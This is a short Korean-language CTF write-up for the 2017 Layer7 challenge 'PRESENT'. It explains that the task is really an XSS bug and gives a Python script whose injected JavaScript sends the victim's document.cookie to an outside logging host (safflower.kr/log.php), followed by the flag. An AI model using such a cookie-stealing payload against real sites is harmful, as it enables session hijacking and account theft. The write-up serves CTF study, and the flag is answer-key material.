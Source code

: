 # [2017 Layer7 CTF] PRESENT - Writeup

## XSS

얼핏 소스를 보면 필터링 우회가 불가능한 문제 같지만, 그건 그냥 낚시고 사실은 XSS 문제다.

forward.php에 URL을 통해 XSS가 되게하고, 그 주소를 post.php에 전달해주면 된다.

그리고 쿠키를 탈취하면 된다.

``` python
import urllib.parse, urllib.request

def main():
	url = 'http://ctf.layer7.kr:6003/post.php'
	post_data = {
		'contents':'http://ctf.layer7.kr:6003/forward.php?contents=";document.location="http://safflower.kr/log.php?a="%2bdocument.cookie;return+"'
	}
	headers = {
		'User-Agent':'Mozilla/5.0',
		'Content-Type':'application/x-www-form-urlencoded'
	}
	req = urllib.request.Request(
		url, 
		urllib.parse.urlencode(post_data).encode(), 
		headers
	)
	res = urllib.request.urlopen(req).read().decode()

	print(res)

if __name__ == '__main__':
	main()
```
```
flag=flag{WowwOwwoWWOWWoWWOwwOW}
```

___

## Answer

flag: `WowwOwwoWWOWWoWWOwwOW`
